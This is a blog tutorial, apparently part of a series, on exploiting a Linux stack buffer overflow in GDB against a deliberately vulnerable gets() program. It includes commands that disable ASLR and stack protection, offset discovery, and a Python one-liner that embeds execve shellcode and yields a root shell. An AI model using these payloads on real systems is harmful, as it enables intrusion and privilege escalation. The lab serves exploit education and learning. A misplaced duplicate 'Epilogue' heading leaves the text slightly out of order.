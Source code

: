 ```yaml
---
layout: post
title:  "Stack Buffer Overflows: Linux 2 - Jumping to Shellcode"
date:   2018-01-13 01:00:00 +0100
categories: [bof]
description: v0.1
image:
  feature: shellcode2.jpg
  credit:
  creditlink:
---
```

In Chapter 2 of my Linux Stack Buffer Overflow series I'll be walking you through crafting an exploit from scratch in GDB with no external hints of the environment.  If you're new to this type of exploit I'd recommend going through [Chapter 1](). 

One issue with crafting an exploit in GDB and then running it outside, is that the exploit simply no longer works.  This wasn't an issue in  as we were printing out the location of our exploit in memory, but what if we don't have that luxury? To show you how to overcome this, we'll be using the following code.

```c
#include <stdio.h>

int main(){
  bof();
  return 0;
}

int bof()
{
  char buffer[128];
  gets(buffer);
  return 0;
}

```  

## Step 1: Equalise the environment

There can be a number of reasons for this, but by far the most common is that the stack offsets outside GDB are different within GDB.  This [stack overflow](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966) answer does a good job explaining the exact reason, environment variables, and also provides a handy script for equalising these inside and outside GDB.  

The script also forces the step of calling a full rather than relative pathname, i.e `/root/test` vs `./test`.  Unsurprisingly this also has an effect on stack offsets as GDB will use the former.  Therefore, always call binaries with their full pathname.

I've demonstrated the use of this script below, which shows that the offset is equal in both.  The added environment variables also need to be removed when starting GDB, and usually this is enough to ensure equal stack offsets.  

```bash
root@kali:~# ./invoke test
Wanna Smash!?: 0xffffddb0
```
```gdb
root@kali:~# ./invoke -d test
...............SNIP........................
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) r
Starting program: /root/test 
Wanna Smash!?: 0xffffddb0
```

We can see that the stack offsets are equal if we take these steps.  It's worth doing even if, like me, you're very lazy as it will save you a lot of stress further down the line.

### Step 2: Overflow the Buffer

So compile the binary, removing all protections.

```
root@kali:~/bof# echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
root@kali:~/bof# gcc bof.c -o bof  -fno-stack-protector -z execstack -m32
```

The first part of the exploitation process is much the same as in Chapter 1.  We first find the point at which `eip` is overrun using a cyclical sequence.

```
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /root/bof/bof 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
```

```
EIP: 0x41416d41 ('AmAA')
```

We find `eip` at `0x41416d41`, which is at position 140.

### Step 3: Examine the Memory

We now have to find where to jump to.  For this we'll need to take the steps as above and unset any environment variables.
```gdb
(gdb) unset env LINES
(gdb) unset env COLUMNS
```

Now we'll write in a sequence of easily identifiable characters that we can locate when searching memory.  A series of 200 'A' characters should suffice.

```
gdb-peda$ r
Starting program: /root/bof/bof 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Run the find command to search for a series of 'A' characters:  
```
gdb-peda$ find 0x41414141
```
Then find the result where 'A' repeats 200 times on the stack:  
```
[stack] : 0xffffddb0 ('A' <repeats 200 times>)
```

An alternative method is to search around `esp`, the stack pointer and look for this sequence:  
```
gdb-peda$ x/80x $esp-200
0xffffdd78:	0x01	0x00	0x00	0x00	0xb0	0xdd	0xff	0xff
0xffffdd80:	0x38	0xde	0xff	0xff	0x20	0xe3	0xfe	0xf7
0xffffdd88:	0xb0	0xdd	0xff	0xff	0x00	0x70	0x55	0x56
0xffffdd90:	0x01	0x00	0x00	0x00	0x00	0x90	0xf9	0xf7
0xffffdd98:	0x38	0xde	0xff	0xff	0x70	0x55	0x55	0x56
0xffffdda0:	0xb0	0xdd	0xff	0xff	0x01	0x00	0x00	0x00
0xffffdda8:	0xa0	0x34	0xfd	0xf7	0x5a	0x55	0x55	0x56
0xffffddb0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffddb8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffddc0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```
Here we confirm that our sequence begins at `0xffffddb0`.  Assuming this will be the same stack offset, we'll jump to just after this location.

### Step 4: Write your Shellcode

For this we'll just grab [this shellcode](https://www.exploit-db.com/exploits/42177/).
```
python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffddb0)' > /tmp/var
```

We now test it in GDB:
```
gdb-peda$ r < /tmp/var
Starting program: /root/bof/bof < /tmp/var
process 6648 is executing new program: /bin/dash
[Inferior 1 (process 6648) exited normally]
Warning: not running or target is remote
```
So we know our shellcode is working correctly.  Now we just run it outside the program
```
(cat /tmp/var; cat)|./invoke bof
id
uid=0(root) gid=0(root) groups=0(root)
ls
bof  bof.c  invoke  peda-session-bof.txt  peda-session-dash.txt
```

Step 5:  Without Invoke
--------------------------------

Of course sometimes the script isn't available to us, or isn't appropriate to the environment.  Say you're exploiting a remote service, and therefore the binary is already loaded and memory locations set.

Epilogue
--------
Hopefully now you have a good idea how you'd build an exploit from scratch using GDB.  In the next chapter we'll use these techniques to build a working exploit from scratch for a known application.  We'll also go through finding and removing bad characters, which can result in your shellcode failing to run.

In this case repeat exactly as above, removing the environment variables again but simply don't use the `invoke` script.  We'll get a different stack address:
```
[stack] : 0xffffd280 ('A' <repeats 200 times>)
```
So we adjust our payload accordingly:
```
root@kali:~/bof# python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffd280)' > /tmp/var
root@kali:~/bof# (cat /tmp/var; cat)| /root/bof/bof
id
uid=0(root) gid=0(root) groups=0(root)
```
If this doesn't work, then play around with the stack location until the exploit succeeds.

Epilogue
-----------
Now we've successfully exploited a binary without it intentionally leaking information, but we're still disabling all stack protections.  Next time I'll show you how to bypass the simplest of these, data execution prevention (DEP) and use a technique known as ret2libc.

References
----------
[PEDA](https://github.com/longld/peda)
[Stack Overflow Answer on Failing GDB Exploit](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966)
[https://www.exploit-db.com/exploits/42177/](https://www.exploit-db.com/exploits/42177/)


Changelog
---------
